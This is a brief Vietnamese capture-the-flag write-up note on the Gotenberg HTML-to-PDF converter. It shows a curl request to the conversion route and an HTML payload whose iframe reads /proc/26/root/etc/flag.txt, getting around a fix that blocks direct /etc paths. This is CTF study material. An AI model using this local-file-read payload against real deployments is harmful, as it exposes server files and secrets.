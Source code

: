 Bài này liên quan đến gói gotenberg

Cách sử dụng đọc ở đây:
https://gotenberg.dev/docs/routes

Đây giương như là phiên bản mới nhất, và bài này lúc giải diễn ra thì mình cũng không rõ cách làm, cho đến thi đọc wu thì thấy hay lên note lại.

```curl
curl \
--request POST http://localhost:3000/forms/chromium/convert/html \
--form files=@/path/to/index.html \
-o my.pdf
```
Đoạn này thực hiện chuyển html sang pdf để đọc flag
`index.html`
```html
<div class="page-break-after">
    <h2>/proc/26/root/etc/flag.txt</h2>
    <iframe src="/proc/26/root/etc/flag.txt"></iframe>
</div>
```

Đoạn này có nhiệm vụ là chuyển một file index.html sang pdf, và nếu ta để rõ đường dẫn `/etc/flag.txt` thì sẽ không được vì nó đã được fix từ phiên bản trước đó. 

Vì vậy mình tham khảo được thì họ xem các tiến trình đang chạy xem có cái nào tồn tại file flag.txt đang được bật không. 

![alt text](image.png)

chọn một trong các dòng ở trong hình là ta lấy được flag

